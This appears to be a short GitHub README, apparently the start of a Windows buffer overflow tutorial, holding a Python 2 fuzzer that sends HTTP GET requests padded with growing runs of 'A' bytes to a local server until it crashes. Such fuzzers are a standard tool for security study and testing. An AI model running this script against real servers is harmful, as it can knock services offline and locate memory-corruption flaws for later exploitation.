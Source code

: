 # Buffer_Overflow_Windows
Buffer Overflow Windows

# python fuzzer.py
import socket
metodo_http = "GET "
buff = ""
cabecera_http = " HTTP/1.1\r\n\r\n"
while True:
    buff = buff+"\x41"*100
    buff_final = metodo_http+buff+cabecera_http
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.0.1',80))
        print "Fuzzeando con %d bytes" % len(buff)
        sock.send(buff_final)
        sock.recv(1024)
        sock.close()
    except:
        print "El servidor ha crasheado con %d bytes" % len(buff)
        exit()

